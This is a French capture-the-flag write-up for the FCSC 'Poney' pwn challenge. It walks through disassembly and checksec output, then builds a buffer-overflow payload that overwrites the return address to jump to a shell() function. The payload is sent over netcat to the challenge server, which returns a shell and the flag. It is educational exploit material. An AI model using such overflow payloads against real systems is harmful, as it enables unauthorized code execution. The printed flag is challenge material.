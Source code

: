 # <center>Poney</center>

<center>

![](./poney.png)

</center>

Pour commencer regardons déjà à quel type de fichier avons nous affaire.

    sayymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ file poney
    poney: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=06fdfc3c264bdc167a0855288210c06e16ce805e, not stripped

On a un executable en 64bits non strippé et linké dynamiquement.

OK maintenant que fait cet executable ?

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ ./poney 
    Give me the correct input, and I will give you a shell:
    >>> test

Il va juste demander un input et se refermer si celui-ci est faux alors ?

Désassemblons le pour voir tout ça de plus près

    pwndbg> disass main
    Dump of assembler code for function main:
       0x0000000000400689 <+0>:	push   rbp
       0x000000000040068a <+1>:	mov    rbp,rsp
       0x000000000040068d <+4>:	sub    rsp,0x20
       0x0000000000400691 <+8>:	lea    rdi,[rip+0xe0]        # 0x400778
       0x0000000000400698 <+15>:	call   0x400550
       0x000000000040069d <+20>:	lea    rdi,[rip+0x10c]        #     0x4007b0
       0x00000000004006a4 <+27>:	mov    eax,0x0
       0x00000000004006a9 <+32>:	call   0x400560
       0x00000000004006ae <+37>:	mov    rax,QWORD PTR [rip   +0x20095b]        # 0x601010 <stdout@@GLIBC_2.2.5>
       0x00000000004006b5 <+44>:	mov    rdi,rax
       0x00000000004006b8 <+47>:	call   0x400568
       0x00000000004006bd <+52>:	lea    rax,[rbp-0x20]
       0x00000000004006c1 <+56>:	mov    rsi,rax
       0x00000000004006c4 <+59>:	lea    rdi,[rip+0xea]        # 0x4007b5
       0x00000000004006cb <+66>:	mov    eax,0x0
       0x00000000004006d0 <+71>:	call   0x400570
       0x00000000004006d5 <+76>:	mov    eax,0x0
       0x00000000004006da <+81>:	leave  
       0x00000000004006db <+82>:	ret    
    End of assembler dump.

Ici on peut voir que 0x20 octets soit 32 en decimal vont être alloués.
On peut donc penser à un buffer overflow.

Checkons les securités ajoutés au binaire pour pendez à notre méthode d'exploitation.


    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ checksec poney
    [*] '/home/saymant/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney/poney'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

Donc NX (rend la stack non executable) est présent donc on ne peut déjà pas se contenter de mettre un shellcode sur la stack.

Essayons de voir ce qui constitue tous l'executable

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ objdump -d poney

    poney:     format de fichier elf64-x86-64
    
    ...

    0000000000400676 <shell>:
      400676:	55                   	push   %rbp
      400677:	48 89 e5             	mov    %rsp,    %rbp
      40067a:	48 8d 3d e7 00 00 00 	lea    0xe7 (%rip),%rdi        # 400768 <_IO_stdin_used+0x8>
      400681:	e8 d2 fe ff ff       	callq  400558   <.plt.got+0x8>
      400686:	90                   	nop
      400687:	5d                   	pop    %rbp
      400688:	c3                   	retq   

    ...

Mhhh ... cette fonction shell est sûrement très intéressante. Et si on essayait tout simplement de jump dessus ?

On est sur du 64 bits, avant tout mettons donc cette adresse en little endian 64 bits

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ python
    Python 2.7.13 (default, Sep 26 2018, 18:42:22) 
    [GCC 6.3.0 20170516] on linux2
    Type "help", "copyright", "credits" or "license"    for more information.
    >>> import pwn
    >>> pwn.p64(0x0000000000400676)
    'v\x06@\x00\x00\x00\x00\x00'
    >>> quit()

Bien, retenons l'adresse ```v\x06@\x00\x00\x00\x00\x00``` 

Bon rappelez vous, l'executable allouait 32 octets (le buffer), donc on aura juste à écrire sur 40 octets (buffer + RBP qui est sur 8 octets) pour remplir le buffer et ensuite pouvoir overwrite et réecrire RIP avec l'adresse de la fonction shell(). 

Notre payload devrait ressembler à ça :

```python -c 'print "A"*40 + "v\x06@\x00\x00\x00\x00\x00"' | nc challenges1.france-cybersecurity-challenge.fr 4000```

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ python -c 'print "A"*40 + "v\x06@\x00\x00\x00\x00\x00"' | nc challenges1.france-cybersecurity-challenge.fr 4000
    Give me the correct input, and I will give you a    shell:
    >>> ls
    ls
    :(

Hein ? Bizarrement ça devrait marcher :/. Essayons alors de bloquer l'execution avec la commande cat, la payload finale devrait alors ressembler à ça :

```(python -c 'print "A"*40 + "v\x06@\x00\x00\x00\x00\x00"'; cat) | nc challenges1.france-cybersecurity-challenge.fr 4000```

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ (python -c 'print "A"*40 + "v\x06@\x00\x00\x00\x00\x00"'; cat) | nc challenges1.france-cybersecurity-challenge.fr 4000
    Give me the correct input, and I will give you a    shell:
    >>> ls
    flag
    poney
    cat flag
    FCSC    {725dd45f9c98099bcca6e9922beda74d381af1145dfce3b933 512a380a356acf}

Ah ouf ! Ça a bien l'air de marcher là.
